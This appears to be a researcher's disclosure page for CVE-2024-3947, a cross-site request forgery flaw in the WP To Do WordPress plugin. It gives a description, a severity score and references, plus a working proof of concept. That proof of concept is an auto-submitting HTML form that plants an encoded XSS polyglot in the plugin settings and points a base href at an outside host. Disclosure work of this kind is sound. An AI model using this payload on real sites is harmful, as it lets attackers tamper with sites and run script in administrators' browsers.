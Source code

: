 ```yaml
---
layout: page
title: CVE-2024-3947
subtitle: WP To Do <= 1.3.0 - Cross-Site Request Forgery via wptodo_settings
---
```

## Description
The WP To Do plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.3.0. This is due to missing or incorrect nonce validation on the wptodo_settings() function. This makes it possible for unauthenticated attackers to modify the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.3.0

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / https://x.com/aaillesim -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin.php?page=wptodo_settings" method="POST">
      <input type="hidden" name="subject" value="JavaScript&#58;&#47;&#47;&#37;0A&#47;&#42;&#63;&apos;&#47;&#42;&#92;&#92;&apos;&#47;&#42;&quot;&#47;&#42;&#92;&#92;&quot;&#47;&#42;&#96;&#47;&#42;&#92;&#92;&#96;&#47;&#42;&amp;apos&#59;&#41;&#47;&#42;&lt;&#33;&#45;&#45;&gt;&lt;&#47;Title&#47;&lt;&#47;Style&#47;&lt;&#47;Script&#47;&lt;&#47;textArea&#47;&lt;&#47;iFrame&#47;&lt;&#47;noScript&gt;&#92;&#92;74k&lt;K&#47;contentEditable&#47;autoFocus&#47;OnFocus&#61;&#47;&#42;&#36;&#123;&#47;&#42;&#47;&#59;&#123;&#47;&#42;&#42;&#47;&#40;confirm&#41;&#40;1&#43;2&#43;3&#43;4&#43;5&#43;6&#43;7&#43;8&#43;9&#43;10&#43;11&#43;12&#43;13&#43;14&#43;15&#43;16&#43;17&#43;18&#43;19&#43;20&#43;45&#43;500&#43;1000&#45;400&#45;20&#43;2&#41;&#125;&#47;&#47;&gt;&lt;Base&#47;Href&#61;&#47;&#47;ener1&#45;s3c&#46;github&#46;io&#92;&#92;76&#45;&#45;&gt;" />
      <input type="hidden" name="body" value="JavaScript&#58;&#47;&#47;&#37;0A&#47;&#42;&#63;&apos;&#47;&#42;&#92;&#92;&apos;&#47;&#42;&quot;&#47;&#42;&#92;&#92;&quot;&#47;&#42;&#96;&#47;&#42;&#92;&#92;&#96;&#47;&#42;&amp;apos&#59;&#41;&#47;&#42;&lt;&#33;&#45;&#45;&gt;&lt;&#47;Title&#47;&lt;&#47;Style&#47;&lt;&#47;Script&#47;&lt;&#47;textArea&#47;&lt;&#47;iFrame&#47;&lt;&#47;noScript&gt;&#92;&#92;74k&lt;K&#47;contentEditable&#47;autoFocus&#47;OnFocus&#61;&#47;&#42;&#36;&#123;&#47;&#42;&#47;&#59;&#123;&#47;&#42;&#42;&#47;&#40;confirm&#41;&#40;1&#43;2&#43;3&#43;4&#43;5&#43;6&#43;7&#43;8&#43;9&#43;10&#43;11&#43;12&#43;13&#43;14&#43;15&#43;16&#43;17&#43;18&#43;19&#43;20&#43;45&#43;500&#43;1000&#45;400&#45;20&#43;2&#41;&#125;&#47;&#47;&gt;&lt;Base&#47;Href&#61;&#47;&#47;ener1&#45;s3c&#46;github&#46;io&#92;&#92;76&#45;&#45;&gt;" />
      <input type="hidden" name="submit" value="Submit&#32;Query" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/browser/wp-todo/trunk/inc/Base/Model.php#L304
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-todo/wp-to-do-130-cross-site-request-forgery-via-wptodo-settings






